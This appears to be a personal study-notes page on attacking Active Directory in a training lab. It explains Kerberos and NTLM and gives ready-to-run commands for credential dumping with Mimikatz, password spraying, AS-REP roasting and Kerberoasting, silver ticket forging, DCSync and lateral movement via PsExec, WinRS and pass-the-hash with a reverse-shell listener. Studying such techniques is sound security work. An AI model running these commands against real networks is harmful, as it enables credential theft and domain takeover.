

Active Directory (AD) is a service that allow admins to manage collections of machines at the same time. Each domain is managed by a central machine known as the domain controller (DC).

With sufficient perms, u can just change another user’s pw using `net user <user> <new pw> /domain`

## Core concepts
<details>

powerful groups: Domain Admins, Enterprise Admins

### LDAP
<details>
When we query user or group objects, LDAP is used as the communication channel for the query.

`LDAP://HostName[:PortNumber][/DistinguishedName]`

Hostname: hostname(computer name / IP / domain name) of DC holding the PdcRoleOwner property

(optional) Port: for DC using non-default ports

(optional) Distinguished Name: [here](/docs/general/AD#distinguished-name)
</details>

### Distinguished Name
<details>
Every object has a DN, leftmost is highest hierarchy (like parent or smth) and rightmost is lowest hierarchy. Eg, `CN=Stephanie,CN=Users,DC=corp,DC=com` is a DN for the user Stephanie, as u can see the hierarchy goes from left to right
</details>

### NTLM Auth Steps
<details>
NTLM authentication is used when a client authenticates to a server by IP address (instead of by hostname), or if the user attempts to authenticate to a hostname that is not registered on the Active Directory-integrated DNS server. Likewise, third-party applications may choose to use NTLM authentication instead of Kerberos.


Step 4 response is encrypted using the hash from step 1. DC already knows NTLM hash of all users.
</details>

### Kerberos Auth Steps
<details>
Default authentication mechanism for modern AD. Kerberos stores cached hashes in LSASS. Mimikatz is a tool that helps to extract stuff from LSASS.


Step 1 (AS-REQ) (also known as preauthentication): Timestamp encrypted using a hash dervied from the user's password

DC knows the hashes for all users, and decrypts the AS-REQ, checks that the timestamp is valid.

Step 2 (AS-REP): If valid, AS-REP will contain a session key (encrypted using the password hash) and ticket-granting ticket (TGT) (encrypted using krbtgt's hash). By default TGTs are valid for 10h.

When user wants to use a service, DC will be contacted again, initiating Step 3.

Step 3 (TGS-REQ): \{user + timestamp\} (encrypted with session key), resource name, and encrypted TGT. 

DC checks: Timestamp must be valid, username encrypted with session key must match TGT, source IP has to match TGT, then TGS-REP is sent

Step 4 (TGS-REP): name of service granted (encrypted with session key from step 2), new session key (encrypted with session key from step 2), service ticket with username, groups, and new session key (service ticket is encrypted with password hash of service account).

User will then continue auth with the actual service.

Step 5 (AP-REQ): username & timestamp (encrypted with new session key from step 4), and service ticket

Application server decrypts the service ticket to get username, and checks if it matches username from the other part of AP-REQ. Then it will check the groups listed in the service ticket and assign the user the appropriate perms and then send AP-REP.

[Privileged Account Certificate](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/166d8064-c863-41e1-9c23-edaaa5f36962) (PAC) [validation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-apds/1d1f2b0c-8e8a-4d2a-8665-508d04976f84) is an optional verification process between the SPN application and the domain controller. If this is enabled, the user authenticating to the service and its privileges are validated by the domain controller.

[WIP] read and add info from this [link](https://blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf) about the hash that Kerberos uses in Step 1
</details>

### AD permissions
<details>
[Highest] GenericAll: Full permissions on object

GenericWrite: Edit certain attributes on the object

WriteOwner: Change ownership of the object

WriteDACL: Edit ACE's applied to object

AllExtendedRights: Change password, reset password, etc.

ForceChangePassword: Password change for object

Self (Self-Membership): Add ourselves to for example a group

(more…)[https://learn.microsoft.com/en-us/windows/win32/secauthz/access-rights-and-access-masks]
</details>

### Default Users
<details>
Administrator, Krbtgt, Guest, some super long SID

(so that when enumerating u can note down the non-default users maybe idk)
</details>

### Miscellaneous
<details>
https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices?view=windowsdesktop-9.0

DirectoryEntry class encapsulates an AD object
<details>
```powershell
$PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName
$LDAP = "LDAP://$PDC/$DN"

$direntry = New-Object System.DirectoryServices.DirectoryEntry($LDAP)
```
</details>
DirectorySearcher class performs queries against AD
<details>
```powershell
$dirsearcher = New-Object System.DirectoryServices.DirectorySearcher($direntry)
$dirsearcher.filter="samAccountType=805306368" #Users
$dirsearcher.FindAll()
```
</details>

</details>
</details>

## Enumeration
<details>
If can upload stuff
<details>
Upload mimikatz.exe and SharpHound.ps1

Bloodhound/sharphound: [WIP]

Mimikatz: `privilege::debug` first, then `sekurlsa::logonpasswords` for NTLM hash, `sekurlsa::tickets /export` for tickets. `log` to save output to file (for easier searching)
</details>
</details>

## Exploit Methods
<details>

### Spray Passwords
<details>
`net accounts` to check lockout threshold and duration. observation window is the time the threshold will reset. window of 30 mins with threshold of 5 means that u can safely submit 4 wrong attempts every 30 minutes without lockout.

1. causes a lot more traffic: on kali - `crackmapexec smb <target ip> -u <wordlist> -p '<pw>' -d <domain name like corp.com> --continue-on-success` . displays (Pwn3d!) at the end if user cracked is an admin
2. if u have rdp session: copy Spray-Passwords.ps1 over to machine, then run `.\Spray-Passwords.ps1 -Pass <pw> -Admin` where -Admin will spray it against all domain admins
3. if u have rdp session: copy kerbrute_windows_amd64.exe over to machine, then run `.\kerbrute_windows_amd64.exe passwordspray -d <domain name like corp.com> .\usernames.txt "<pw>”` where -Admin will spray it against all domain admins
</details>

### AS-REP Roasting (cracking user pw)
<details>
Requires: 'Do not require Kerberos preauthentication' is set to 'enabled'.

Run `impacket-GetNPUsers -dc-ip <domain controller ip>  -request -outputfile hashes.asreproast <domain>/<user>` (eg `impacket-GetNPUsers -dc-ip <domain controller ip> -request -outputfile hashes.asreproast corp.com/<user>`). Then run `hashcat --help | grep -i "Kerberos"` and find the AS-REP mode for hashcat (it should be 18200, if not change the mode in the next command), then run `sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

When preauthentication is not enabled, we can just send username over without any encrypted timestamp and the DC will give u the AS-REP. If u can crack the AS-REP u can get the user's password.
</details>

### Kerberoasting (cracking service/SPN pw)
<details>
The service ticket from Step 4 of [Kerberos Auth](/docs/general/AD#kerberos-auth-steps) is encrypted using the SPN's password hash. If we can request the ticket and decrypt it using brute force or guessing, we can use this information to crack the cleartext password of the service account. This technique is known as [Kerberoasting](https://blog.harmj0y.net/redteaming/kerberoasting-revisited/).

Powershell: `.\Rubeus.exe kerberoast /outfile:hashes.kerberoast` 

Linux: `sudo impacket-GetUserSPNs -request -dc-ip <domain controller ip> <domain>/<user>` must use a known user and pssword, then `sudo hashcat -m 13100 <hash file> /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

If you have GenericAll or GenericWrite on a user, u can set an [SPN for the user](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)), kerberoast the account, and crack the password hash
</details>

### Silver Ticket (forge service ticket to access services)
<details>
Requires: Privileged Account Certificate (PAC) validation is disabled (quite common), and possession of service account password/hash (can obtain via [kerberoasting](/docs/general/AD#kerberoasting-targetting-servicespn))

With hash of service account, u can forge a service ticket from step 4 of [kerberos auth](/docs/general/AD#kerberos-auth-steps). 

We need three things:
- SPN password hash: run mimikatz and then `privilege::debug` and `sekurlsa::logonpasswords` and look for the service account entry and take the NTML hash
- Domain SID: in the same output take the part of the SID before the last dash
- Target SPN (eg `HTTP/web04.corp.com`)

then u can run `kerberos::golden /sid:<domain sid> /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:<ntlm hash> /user:<user>` u can choose any user, preferably the user ur currently accessing so u can access that service using that ticket

[only for specific web04 example] use `iwr -UseDefaultCredentials http://web04/` (response should be 200) or `klist` to confirm success (cached ticket should have 1 for ur requested server)
</details>

### Domain Backup Abuse (get NTLM of other users)
<details>
Requires: Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes in Filtered Set rights (shown in Bloodhound). By default, members of the Domain Admins, Enterprise Admins, and Administrators groups have these rights assigned.

(Req shell access) You can obtain the ntlm hash for any user using mimikatz: `lsadump::dcsync /user:<user>`  then copy the NTLM hash and store it in a file named hashes.dcsync on kali, then `hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

(Req plaintext password) or you can do it in linux: `impacket-secretsdump -just-dc-user <target user> <domain>/<user w perms>:<password>@<ip**>**` (eg `impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70`)

the NTLM hash can be found in the section showed here:

</details>

## Lateral Movement
Try another method if one of the method doesn’t work…sometimes some method works but some dont…idk also

### WinRS
<details>
Requires: current user is part of Remote Management Users group on target machine

Replace the IP address in `encode.py` then `python3 encode.py` and copy the output. The, run `nc -nvlp 443`

On the victim machine on cmd: `winrs -r:<client name like files04> -u:<user> -p:<pw>  "<output>"`
</details>

### Powershell methods
<details>
Requires: current user is a Local Admin on target client

Replace the IP address in `encode.py` then `python3 encode.py` and copy the output. The, run `nc -nvlp 443`

Run them line by line in powershell on the victim. Don't forget to change the user, password and/or paste the output!

Option 1:
<details>
```powershell
$username = '<user>';
$password = '<pw>';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName <target ip> -Credential $credential -SessionOption $Options 
$command = '<output>';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
</details>

Option 2:
<details>
```powershell
$username = '<user>';
$password = '<pw>';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName <target ip> -Credential $credential
Enter-PSSession <id> # Get id from the output of the previous command
```
</details>
</details>

### PsExec
<details>
Requires:
- user and pw of a local admin on the target client (can try to crack the pw by bruteforcing NTLM or other hashes found)
- ADMIN$ share must be available, and File and Printer Sharing has to be turned on (default settings)

copy PsExec64 from kali (in desktop/cybertools/sysinternals) `.\PsExec64.exe -i  \\<client name like FILES04> -u corp\<user> -p <pw> <cmd or other process u wanna start>` (eg `.\PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd`)
</details>

### Pass the Hash
<details>
Requires (all conditions rather common):
- only NTLM auth is used
- NTLM hash of a user on the machine
- SMB connection through the firewall (commonly port 445)
- ADMIN$ share must be available, and File and Printer Sharing has to be turned on (default settings)

However, u usually also require local admin rights on target machine.

run this on kali:  `/usr/bin/impacket-wmiexec -hashes :<compromised hash> <compromised user>@<victim ip>` (eg `/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73` )
</details>

</details>